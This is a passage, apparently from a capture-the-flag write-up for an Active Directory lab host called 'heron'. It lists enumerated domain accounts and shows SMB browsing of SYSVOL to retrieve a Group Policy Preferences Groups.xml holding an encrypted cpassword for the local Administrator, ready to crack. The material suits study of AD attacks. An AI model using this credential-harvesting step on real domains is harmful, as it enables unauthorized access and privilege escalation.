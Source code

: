     svc-web-accounting-d
    svc-web-accounting
    adm_hoka
    adm_prju
    Geraldine.Powell
    Jayne.Johnson
    Samuel.Davies
    Danielle.Harrison
    Alice.Hill
    Julian.Pratt
    Mohammed.Parry
    Wayne.Wood
    Rhys.George
    Jane.Richards
    Vanessa.Anderson
    Steven.Thomas
    Adam.Matthews
    Adam.Harper
    Amanda.Williams
    Rosie.Evans
    Carol.John
    Anthony.Goodwin
    Rachael.Boyle
    krbtgt
    Katherine.Howard
    _admin
    Guest

## XML-crack
![alt text](../assets/images/Screenshot_2024-07-12_21_45_12.png)

its domain users member lets access smb.


    smb: \heron.vl\Policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\Machine\Preferences\Groups\> ls
    .                                   D        0  Tue Jun  4 11:59:44 2024
    ..                                  D        0  Tue Jun  4 11:59:44 2024
    Groups.xml                          A     1135  Tue Jun  4 12:01:07 2024


on SYSVOL

    ➜  heron cat Groups.xml 
    <?xml version="1.0" encoding="utf-8"?>
    <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2024-06-04 15:59:45" uid="{535B586D-9541-4420-8E32-224F589E4F3A}"><Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)"><Members><Member name="HERON\svc-web-accounting" action="ADD" sid="S-1-5-21-1568358163-2901064146-3316491674-24602"/><Member name="HERON\svc-web-accounting-d" action="ADD" sid="S-1-5-21-1568358163-2901064146-3316491674-26101"/></Members></Properties></Group>
            <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator (built-in)" image="2" changed="2024-06-04 16:00:13" uid="{F3B0115E-D062-46CC-B10C-C3EB743C824A}"><Properties action="U" newName="_local" fullName="" description="local administrator" cpassword="1G19pP9gbIPUr5xLeKhEUg==" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" subAuthority="RID_ADMIN" userName="Administrator (built-in)"/></User>
    </Groups>
